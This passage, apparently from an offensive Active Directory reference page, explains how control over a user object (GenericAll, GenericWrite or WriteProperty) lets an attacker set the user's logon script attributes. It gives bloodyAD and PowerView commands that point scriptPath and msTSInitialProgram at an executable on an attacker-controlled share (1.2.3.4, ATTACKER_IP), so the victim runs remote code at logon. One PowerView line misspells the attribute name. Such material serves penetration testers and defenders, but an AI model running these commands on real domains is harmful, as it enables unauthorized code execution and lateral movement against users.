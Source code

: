 This abuse can be carried out when controlling an object that has a `GenericAll or GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath or msTSInitialProgram`).

The attacker can make the user execute a custom script at logon.
=== "UNIX-like"
    This can be achieved with bloodyAD.
    ```bash
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSWorkDirectory -v 'C:\'

    # or
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user scriptPath -v '\\1.2.3.4\share\file.exe'
    ```
=== "Windows"
    This can be achieved with Set-DomainObject (PowerView module).
    ```bash
    Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

    Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
    ```